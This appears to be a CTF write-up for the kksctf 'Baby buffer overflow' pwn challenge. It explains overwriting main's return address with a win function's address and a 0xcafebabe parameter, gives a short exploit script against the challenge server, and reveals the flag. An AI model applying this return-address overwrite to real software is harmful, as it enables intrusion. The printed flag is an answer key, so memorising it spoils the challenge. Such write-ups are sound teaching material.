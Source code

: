 # Baby buffer overflow


**Category:** Pwn

**Points:** 100

**Description:**

We received new message from kackers. They laugh at us being sure that no one will ever be able to break them and even left a description of what needs to be done. Show them what happens to overly confident people!

`nc tasks.open.kksctf.ru 10002`

https://drive.google.com/open?id=1xSswzDDa0lhtGZ2zfhkRr_kNHD0pcdIy

@oldwayfarer

## WriteUp

### Main idea
All you need to do is rewrite return address out of main function with the address of win function and pass a right parameter (`0xcafebabe`)into it.

### Exploitation

First of all we need to obtaion the win function from the given binary with gdb, for example. Then make a payload with a right padding, pass a win fuction address and a the parameter that being required by win.

    s = connect('tasks.open.kksctf.ru', 10002)
    win_addr = p32(0x080485f6) 
    param = p32(0xcafebabe) 
    payload = "a"*260 + win_addr + "aaa" + param
    s.sendline(payload)
    print(s.recvall())

flag: `kks{0v3rf1ow_15_my_1if3}`

Example: [break.py](break.py)
